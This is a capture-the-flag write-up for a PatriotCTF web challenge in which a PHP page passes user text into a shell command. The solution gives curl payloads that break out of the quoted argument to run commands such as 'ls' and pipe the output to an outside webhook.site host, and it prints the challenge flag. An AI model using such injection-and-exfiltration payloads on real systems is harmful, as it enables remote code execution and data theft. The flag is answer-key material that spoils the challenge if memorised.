



# Spongebob

## The Problem

Points: 500

Rating: Easy

Author:

Flavor Text:
```
Spongebob 😍

Flag format note: case insensitive

Challenge Author: NihilistPenguin (Daniel Getter)

http://chal1.pctf.competitivecyber.club:10009/

```

Attachments : [main.php](main.php)


## Solution


posts to http://chal1.pctf.competitivecyber.club:10009/main.php are messed with char by char. 

we can escape the php command creater to run both the python script with input and our command that follows. 

can pull the sources



we are able to force remote code exec and hit our server. just need to pipe the local comand content into the post request

curl 'http://chal1.pctf.competitivecyber.club:10009/main.php'   --data-raw 'text=hi" | curl -X POST --data-binary @- https://webhook.site/1e8eb917-1634-44d2-91ea-b39aa998e162 \'http://chal1.pctf.competitivecyber.club:10009/main.php




curl 'http://chal1.pctf.competitivecyber.club:10009/main.php'   --data-raw 'text=hi" | ls | curl -X POST --data-binary @- https://webhook.site/1e8eb917-1634-44d2-91ea-b39aa998e162 \'  http://chal1.pctf.competitivecyber.club:10009/main.php


curl -X POST -H “Content-Type: text/plain" -d "test" https://webhook.site/1e8eb917-1634-44d2-91ea-b39aa998e162




## Flag
```
PctF{SPoNGebpb_LookiNG_ThIcC}

```

## Final Notes
